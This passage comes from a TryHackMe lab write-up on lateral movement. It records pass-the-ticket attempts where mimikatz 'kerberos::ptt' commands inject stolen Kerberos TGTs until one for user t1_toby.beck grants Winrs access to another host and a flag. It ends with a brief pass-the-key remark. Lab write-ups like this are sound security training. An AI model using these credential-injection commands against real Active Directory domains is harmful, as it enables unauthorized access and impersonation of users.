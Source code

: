 ![](/assets/img/Pasted image 20230208222039.png)

			- Seems to work.

	7. Using Winrs.exe to check whether the ticket was really injected:

![](/assets/img/Pasted image 20230208222643.png)

			- The injected ticket is NOT the right one! Let's go back again to mimikatz and try the last TGT found.

	8. Trying out the third TGT found:

```powershell
mimikatz # kerberos::ptt [0;3e4]-2-1-40e10000-THMJMP2$@krbtgt-ZA.TRYHACKME.COM.kirbi
```

![](/assets/img/Pasted image 20230208222857.png)

![](/assets/img/Pasted image 20230208222920.png)

		- Access is still denied.
		- This isn't the correct TGT.

	9. Finding another TGT with the CORRECT "Client Name" which is `t1_toby.beck`:

![](/assets/img/Pasted image 20230208223211.png)

			- Got it!
			- TGT: "[0;cafd1]-2-0-40e10000-t1_toby.beck@krbtgt-ZA.TRYHACKME.COM.kirbi"

	10. Injecting this TGT again in this session:

```powershell
mimikatz # kerberos::ptt [0;cafd1]-2-0-40e10000-t1_toby.beck@krbtgt-ZA.TRYHACKME.COM.kirbi
```

![](/assets/img/Pasted image 20230208223337.png)

	11. Using Winrs.exe to access THMIIS machine using the access token of t1_toby.beck:

![](/assets/img/Pasted image 20230208223419.png)

			- Works!!

	 12. Get the flag:

![](/assets/img/Pasted image 20230208223457.png)

### Using Pass-The-`Key`

	1-4. Same steps as Pass-The-Hash
	- This one is pretty much the same as Pass-the-hash!

-----
# Abusing User Behaviour
